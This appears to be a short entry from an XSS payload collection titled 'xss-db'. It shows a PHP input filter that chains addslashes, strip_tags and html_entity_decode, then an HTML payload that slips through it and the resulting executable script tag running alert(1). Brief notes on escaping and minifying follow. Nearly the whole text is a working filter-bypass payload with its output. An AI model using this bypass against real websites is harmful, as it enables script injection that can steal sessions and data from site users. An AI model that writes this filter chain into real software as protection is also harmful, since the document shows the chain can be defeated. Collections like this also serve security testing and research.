 # xss-db

PHP


PHP sorce code:
```PHP
addslashes(strip_tags(html_entity_decode("input")))
```
bypass:
```html
'<p>&lt;script&gt;/*&lt;</p>*/alert(1);/*<p>&gt;*/&lt;/script&gt;</p>'
```
output:
```html
<script>/*<*/alert(1);/*>*/</script>
```
notes:
 - may need to be escaped before hand
 - may also beable to be minified
<hr>
